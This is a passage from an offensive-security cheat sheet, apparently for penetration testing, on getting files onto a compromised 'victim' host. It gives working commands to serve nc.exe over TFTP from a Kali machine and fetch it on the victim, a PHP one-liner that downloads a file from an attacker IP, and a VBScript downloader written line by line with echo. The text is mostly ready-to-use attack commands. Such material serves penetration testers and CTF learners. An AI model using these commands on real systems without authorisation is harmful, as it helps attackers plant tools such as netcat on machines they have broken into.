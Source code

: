 ```bash
#I didn't get this options working and I prefer the python option
mkdir /tftp
atftpd --daemon --port 69 /tftp
cp /path/tp/nc.exe /tftp
```

**TFTP server in python:**

```bash
pip install ptftpd
ptftpd -p 69 tap0 . # ptftp -p <PORT> <IFACE> <FOLDER>
```

In **victim**, connect to the Kali server:

```bash
tftp -i <KALI-IP> get nc.exe
```

## PHP

Download a file with a PHP oneliner:

```bash
echo "<?php file_put_contents('nameOfFile', fopen('http://192.168.1.102/file', 'r')); ?>" > down2.php
```

## VBScript

```bash
Attacker> python -m SimpleHTTPServer 80
```

**Victim**

```bash
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http =CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```
